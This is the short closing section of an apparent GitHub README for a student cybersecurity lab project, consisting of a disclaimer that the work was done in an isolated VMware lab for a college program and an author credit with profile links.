> All activities were performed in a **controlled, isolated VMware lab environment** for educational purposes as part of the Fanshawe College Information Security Management program. No real systems were targeted or harmed.

---

## 👨‍💻 Author

**Sudip Pokhrel** | Cybersecurity & IT Support Enthusiast

[](https://www.linkedin.com/in/sudip-pokhrel-3375291b3/)
[](https://github.com/sudippokhrel33513)
